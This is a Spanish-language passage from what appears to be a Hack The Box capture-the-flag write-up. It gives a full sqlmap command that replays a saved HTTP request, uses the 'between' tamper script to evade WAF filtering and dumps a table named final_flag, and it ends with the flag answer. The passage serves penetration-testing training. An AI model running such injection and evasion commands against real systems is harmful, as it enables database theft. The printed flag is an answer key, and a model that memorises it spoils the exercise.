
</p>

Guardamos la solictud en un .txt (**Clikamos al boton derecho - Save selected text to file**)

<p align="center"> 

</p>

```
sqlmap -r peticion --threads 10 --tamper=between -T final_flag --dump --batch --tamper=between
```

* **`sqlmap -r peticion`**. Le dice a sqlmap que no use una URL simple, sino que **lea un archivo de texto** (en este caso llamado `peticion`) que contiene la ráfaga HTTP completa (encabezados, cookies, método POST y parámetros). Esto es ideal porque sqlmap imita con exactitud la petición que hizo tu navegador, incluyendo tu sesión activa.
* **`--threads 10`**. Por defecto, sqlmap es un poco precavido y envía las peticiones de una en una. Con este parámetro le estás diciendo: _"Quiero que trabajes en paralelo usando 10 hilos a la vez"_. Esto **acelera muchísimo la velocidad** de extracción de los datos, algo vital en inyecciones a ciegas (Blind SQLi) o basadas en tiempo. 
* **`--tamper=between`**. Los _tamper scripts_ son modificadores de código. Sirven para **evadir sistemas de seguridad (WAF/Firewalls)** o filtros de la aplicación.
* **`-T final_flag --dump`**. Le estás diciendo explícitamente a qué tabla apuntar. En lugar de perder tiempo escaneando toda la base de datos, vas directo a la tabla llamada `final_flag`.
- **`--dump`:** Es la orden de **extraer y mostrar el contenido**. Sqlmap entrará a la tabla `final_flag`, descargará todas sus columnas y filas (donde estará tu bandera del assessment) y te las mostrará en la pantalla, además de guardarlas en un archivo local en tu máquina.

<p align="center"> 

</p>

answer: **HTB{n07_50_h4rd_r16h7?!}**